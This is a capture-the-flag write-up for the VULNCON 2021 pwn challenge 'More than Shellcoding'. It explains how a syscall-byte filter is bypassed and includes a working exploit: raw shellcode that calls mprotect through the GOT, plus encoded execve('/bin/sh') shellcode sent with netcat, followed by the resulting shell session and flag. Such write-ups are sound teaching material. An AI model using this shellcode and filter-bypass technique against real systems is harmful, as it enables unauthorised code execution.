 
## Pwn/More than Shellcoding

```
Pwn/More than Shellcoding
0w0
12 solves / 472 points
Are you really good at shellcoding...

nc 35.228.15.118 1338
```

Attachment: [challenge file]({{ site.url }}{{ site.baseurl }}/assets/files/vulncon-ctf-2021/More_than_shellcoding)

### Solution

This challenge is a basic 'execute-your-shellcode' challenge with the following constraints:

1. The buffer containing the shellcode is set to `execute` with `mprotect`. This frustrates
    polymorphic payloads.
2. Payloads containing the `0x0f05` sequence is not permitted. This corresponds to `syscall`.

The following exploit re-uses `mprotect` in the GOT to set all permissions on the shellcode buffer
and then executes a standard encoded `execve("/bin/sh")` shellcode.

```bash
 cat exploit.sh
#!/bin/bash

# Set mprotect rwx preamble.
# mov rdi, 0x69420000
# mov rsi, 0x100
# mov rdx, 0x7
# mov r8, 0x4010f0
# call r8

(python -c 'import sys;from pwn import *;x=b"\x48\xC7\xC7\x00\x00\x42\x69\x48\xC7\xC6\x00\x01\x00\x00\x48\xC7\xC2\x07\x00\x00\x00\x49\xC7\xC0\xF0\x10\x40\x00\x41\xFF\xD0" + encode(asm(pwnlib.shellcraft.amd64.linux.sh(), arch="amd64"), avoid=b"\x0f\x05");sys.stdout.buffer.write(x)'; cat -) | nc 35.228.15.118 1338
```

Executing the exploit gives us a shell and allows us to get the flag:

```console
$ bash exploit.sh
Are you really good at shellcoding Lets try :
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -la
total 64
drwxr-xr-x 1 root root  4096 Dec  4 10:09 .
drwxr-xr-x 1 root root  4096 Nov 29 05:47 ..
-rw-r--r-- 1 root root   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root  3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 root root   807 Feb 25  2020 .profile
-rwxr-xr-x 1 root root 17128 Nov 26 15:51 chall
-rw-rw-r-- 1 root root    48 Dec  4 06:27 flag
-rwxr-xr-x 1 root root 18744 Nov 29 11:11 ynetd
cat flag
VULNCON{Gu355_u_d0nt_n33d_th3_5y5c4ll_aft3r4ll}
```
